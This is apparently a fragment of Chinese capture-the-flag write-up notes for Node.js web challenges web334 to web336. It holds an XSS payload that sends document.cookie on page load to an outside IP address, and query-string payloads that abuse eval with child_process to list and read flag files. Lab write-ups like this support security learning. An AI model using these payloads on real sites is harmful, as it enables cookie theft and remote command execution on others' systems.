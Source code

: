 ```
<body/onload=location.href="http://124.223.171.164/home/chenshi/x.php?cookie="+document.cookie>
```



## node.js

### web334

文件里全暴露了



### web335

```
?eval=require('child_process').execSync('ls');
```

noScript显示这是XSS攻击。文件在fl00g.txt中

```
?eval=require('child_process').execSync('cat fl00g.txt');
```



### web336

```
?eval=require('child_process').spawnSync('ls').stdout.toString()
```

flag在fl001g.txt中

```
?eval=require('child_process').spawnSync('cat fl001g.txt').stdout.toString()
```

